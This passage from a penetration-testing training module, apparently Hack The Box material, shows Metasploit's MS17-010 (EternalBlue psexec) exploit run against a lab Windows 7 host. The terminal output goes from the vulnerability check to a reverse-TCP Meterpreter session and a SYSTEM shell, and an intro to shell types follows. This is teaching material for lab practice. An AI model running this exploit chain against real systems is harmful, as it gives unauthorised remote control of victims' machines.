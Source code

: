 ```shell
msf6 exploit(windows/smb/ms17_010_psexec) > check [*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check [+] 10.10.10.40:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit) [*] 10.10.10.40:445 - Scanned 1 of 1 hosts (100% complete) [+] 10.10.10.40:445 - The target is vulnerable.
```

As we can see, the server is indeed vulnerable. Note that not every exploit in the `Metasploit Framework` supports the `check` function. Finally, we can use the `run` or `exploit` command to run the exploit:

Public Exploits

```shell
msf6 exploit(windows/smb/ms17_010_psexec) > exploit [*] Started reverse TCP handler on 10.10.14.2:4444 [*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1 [*] 10.10.10.40:445 - Built a write-what-where primitive... [+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained! [*] 10.10.10.40:445 - Selecting PowerShell target [*] 10.10.10.40:445 - Executing the payload... [+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable... [*] Sending stage (175174 bytes) to 10.10.10.40 [*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000 meterpreter > getuid Server username: NT AUTHORITY\SYSTEM meterpreter > shell Process 39640 created. Channel 0 created. Windows 7 Professional 7601 Service Pack 1 (C) Copyright 1985-2009 Microsoft Corp. C:\WINDOWS\system32>whoami NT AUTHORITY\SYSTEM
```

As we can see, we have been able to gain admin access to the box and used the `shell` command to drop us into an interactive shell. These are basic examples of using `Metasploit` to exploit a vulnerability on a remote server. There are many retired boxes on the Hack The Box platform that are great for practicing Metasploit. Some of these include, but not limited to:

-   Granny/Grandpa
-   Jerry
-   Blue
-   Lame
-   Optimum
-   Legacy
-   Devel

Later on, in this module, we will walk through the `Nibbles` box step-by-step and then show exploitation using `Metasploit`. `Metasploit` is another essential tool to add to our toolkit, but it is crucial not solely to rely on it. To be well-rounded testers, we must know how to best leverage all of the tools available to us, understand why they sometimes fail, and know when to pivot to manual techniques or other tools.

---
## Types of Shells

___

Once we compromise a system and exploit a vulnerability to execute commands on the compromised hosts remotely, we usually need a method of communicating with the system not to have to keep exploiting the same vulnerability to execute each command. To enumerate the system or take further control over it or within its network, we need a reliable connection that gives us direct access to the system's shell, i.e., `Bash` or `PowerShell`, so we can thoroughly investigate the remote system for our next move.
